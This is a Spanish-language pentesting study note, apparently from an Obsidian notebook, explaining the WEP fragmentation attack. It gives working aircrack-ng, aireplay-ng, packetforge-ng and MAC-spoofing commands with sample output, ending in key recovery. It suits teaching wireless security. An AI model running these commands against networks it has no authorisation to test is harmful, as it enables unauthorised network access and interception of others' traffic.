

---
tags:
  - Wi-Fi/WEP
  - Pentesting/Explotacion
Descripción: "Recuperar 1500 bytes de keystream partiendo de los 8 bytes conocidos de la cabecera LLC/SNAP, y forjar un ARP con packetforge-ng"
Fecha de actualización: 2026-08-01
Nota previa: "[[05 - ARP Request Replay]]"
Nota siguiente: "[[07 - KoreK ChopChop]]"
Area: "[[WEP.base|WEP]]"
---
---

Cuando no hay tráfico ARP que reinyectar, el [ataque de fragmentación](https://www.aircrack-ng.org/doku.php?id=fragmentation) fabrica el material desde cero. <mark style="background: #ADCCFFA6;">Su objetivo no es la clave sino el **keystream**: 1500 bytes de `PRGA` que permiten cifrar cualquier paquete arbitrario para ese IV</mark>.

# El punto de partida: 8 bytes conocidos

Todo paquete 802.11 con datos viaja encapsulado en una cabecera **LLC/SNAP**, cuyos primeros bytes son constantes:

```text
AA AA 03 00 00 00 08 00     ← IPv4
AA AA 03 00 00 00 08 06     ← ARP
```

Los siete primeros son siempre iguales; el octavo distingue el protocolo, y la **longitud del paquete** lo delata: un ARP encapsulado son exactamente 36 bytes (8 de LLC/SNAP + 28 de ARP).

Como el cifrado WEP es un XOR:

```text
KS = texto_claro ⊕ texto_cifrado
```

<mark style="background: #FFB86CA6;">Conocer 8 bytes del texto en claro entrega inmediatamente 8 bytes de keystream</mark>, sin conocer la clave y sin ningún cálculo. El problema es que 8 bytes no sirven para forjar nada útil.

# Cómo la fragmentación amplifica

Aquí está la idea del ataque. WEP cifra **cada fragmento por separado**, reutilizando el mismo keystream para todos los fragmentos de un mismo paquete. Eso permite:

1. Construir un paquete largo con contenido conocido y **partirlo en fragmentos de 8 bytes**.
2. Cifrar cada fragmento con los 8 bytes de keystream ya recuperados.
3. Enviarlos al AP, que los **reensambla** y retransmite el paquete completo cifrado.
4. Como el contenido en claro se conoce, del paquete retransmitido salen **muchos más bytes de keystream**.
5. Repetir: 8 → 384 → 1500 bytes.



<mark style="background: #8000E1A6;">El AP hace el trabajo: cifra por nosotros contenido que ya conocemos, y cada vuelta multiplica el keystream disponible</mark>.

# Ejecución

Terminal 1, captura:

```shell-session
$ sudo airodump-ng wlan0mon -c 1 --bssid A2:BD:32:EB:21:15 -w WEP
```

Terminal 2, fragmentación:

```shell-session
$ sudo aireplay-ng -5 -b A2:BD:32:EB:21:15 -h 42:E9:11:39:88:AE wlan0mon

Waiting for a data packet...
Size: 100, FromDS: 0, ToDS: 1 (WEP)
Use this packet ? y

Sending fragmented packet
Got RELAYED packet!!
Trying to get 384 bytes of a keystream
Got RELAYED packet!!
Trying to get 1500 bytes of a keystream
Got RELAYED packet!!
Saving keystream in fragment-0805-191851.xor
```

`Got RELAYED packet!!` es la confirmación de que el AP reensambló y retransmitió — es la señal de que el ataque funciona.

> [!warning]+ Alinear la MAC de la interfaz
> ```text
> The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
> ```
> Igual que en [[05 - ARP Request Replay]], muchos APs descartan tramas cuya MAC de origen no coincide con la que las emite:
> ```shell-session
> $ sudo ip link set wlan0mon down
> $ sudo ip link set wlan0mon address 42:E9:11:39:88:AE
> $ sudo ip link set wlan0mon up
> ```

# Del keystream al paquete

El `.xor` no es la clave: sirve para **cifrar** un paquete propio. Primero hay que averiguar el direccionamiento IP de la red, examinando el paquete que se usó de semilla:

```shell-session
$ tcpdump -s 0 -n -e -r replay_src-0805-191842.cap

... ethertype IPv4 (0x0800), length 67: 192.168.1.129.63870 > 192.168.1.1.53:
    34696+ A? outlook.office365.com. (39)
```

Con eso, `packetforge-ng` construye un ARP cifrado válido:

```shell-session
$ packetforge-ng -0 -a A2:BD:32:EB:21:15 -h 42:E9:11:39:88:AE \
    -k 192.168.1.1 -l 192.168.1.129 \
    -y fragment-0805-191851.xor -w forgedarp.cap

Wrote packet to: forgedarp.cap
```

| Opción | Significado |
| ------ | ----------- |
| `-0` | Forjar una petición ARP |
| `-a` | BSSID del AP |
| `-h` | MAC de origen |
| `-k` | IP de destino |
| `-l` | IP de origen |
| `-y` | Fichero de keystream |
| `-w` | Salida |

<mark style="background: #FFB8EBA6;">Si no se conocen las IPs, `255.255.255.255` en ambas suele funcionar</mark>: el paquete se trata como broadcast y el AP lo retransmite igual, que es lo único que hace falta.

# Reinyectar y crackear

```shell-session
$ sudo aireplay-ng -2 -r forgedarp.cap -h 42:E9:11:39:88:AE wlan0mon
Sent 1400 packets...(499 pps)
```

`-2` es el *interactive packet replay*: reenvía un paquete concreto desde un fichero. A partir de aquí el efecto es el mismo que el ARP replay, y se pueden combinar ambos en terminales distintas para sumar ritmo:

```shell-session
$ sudo aireplay-ng -3 -b A2:BD:32:EB:21:15 -h 42:E9:11:39:88:AE wlan0mon
```

```shell-session
$ aircrack-ng -b A2:BD:32:EB:21:15 WEP-01.cap
Got 85311 out of 85000 IVs
Starting PTW attack with 85311 IVs.
KEY FOUND! [ 33:44:55:22:11 ]
```

# Fragmentación frente a ChopChop

Ambos persiguen lo mismo —1500 bytes de keystream— por caminos distintos:

| | Fragmentación | ChopChop |
| - | ------------- | -------- |
| **Mecanismo** | Reensamblado de fragmentos | Oráculo de descifrado byte a byte |
| **Velocidad** | **Segundos** | 1–3 minutos |
| **Requisito** | Que el AP reensamble fragmentos | Que el AP responda a paquetes truncados |
| **Descifra el paquete** | No | **Sí** |
| **Compatibilidad** | Menor: muchos AP no fragmentan | Mayor |

<mark style="background: #FF5582A6;">Probar siempre fragmentación primero</mark>: cuando funciona, tarda segundos frente a los minutos de ChopChop. Si el AP no reensambla, se cae a [[07 - KoreK ChopChop]]. Y si tampoco hay clientes cuya MAC suplantar, hace falta autenticarse falsamente antes — [[09 - Atacar un AP WEP sin clientes]].
